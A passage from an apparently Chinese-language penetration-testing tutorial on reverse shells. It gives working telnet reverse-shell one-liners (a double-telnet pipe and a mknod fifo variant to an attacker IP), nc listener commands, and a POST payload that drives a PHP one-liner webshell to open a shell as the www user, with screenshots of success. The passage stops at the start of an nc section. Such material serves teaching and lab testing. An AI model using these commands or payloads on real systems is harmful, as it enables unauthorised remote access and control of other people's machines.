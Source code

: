 ```POST
telnet 192.168.17.1 60000 | /bin/bash | telnet 192.168.17.1 60001
```

此时在终端开启两个窗口执行命令监听60000和60001端口：

![image-20210802205527751](https://{{site.PicturesLinks_Domain}}/images/2021/08/02/20210802205557.png)

然后将命令执行，等待片刻，窗口就获得了对应的Shell了，如图：

![image-20210802210345379](https://{{site.PicturesLinks_Domain}}/images/2021/08/02/20210802210345.png)

#### 第二种

攻击机监听：

```bash
nc -lvvp port
```

目标主机执行：

```bash
rm -f /tmp/fifo;mknod /tmp/fifo p;telnet x.x.x.x port 0</tmp/fifo | /bin/bash &>/tmp/fifo
```

其中`x.x.x.x`为攻击机IP。

##### 命令原理

**mknod命令**用于创建Linux中的字符设备文件和块设备文件。`mknod /tmp/fifo p`命令则是创建一个已命名的管道fifo，使用telnet命令远程到攻击机，并将攻击机的参数作为标准输入传入该管道，然后将此处接收到的命令参数传给管道符后面命令的输入，再将执行结果的标准输出与错误输出传入给`/tmp/fifo`管道，目标主机由于与该管道建立了对应连接，故达到了反弹Shell的目的。

##### 演示测试

首先我们开启一个窗口对60000端口监听。

此处我们使用一句话木马进行测试，构造POST参数为如下：

```POST
onetalk=system('rm -f /tmp/fifo;mknod /tmp/fifo p;telnet 192.168.17.1 60000 0</tmp/fifo | /bin/bash &>/tmp/fifo');
```

命令中含有“&”符号，此时若我们直接使用POST传则易造成命令丢失，故需要进行编码处理，编码后为`%26`，又或者可以直接指定数字1（即标准输出），只对标准输出进行显示。

然后POST提交参数，此时终端正常获取到www用户的Shell，如图：

![image-20210802223423241](https://{{site.PicturesLinks_Domain}}/images/2021/08/02/20210802223423.png)

### 3、nc反弹

攻击机监听：

```bash
nc -lvvp port
```

目标机执行：
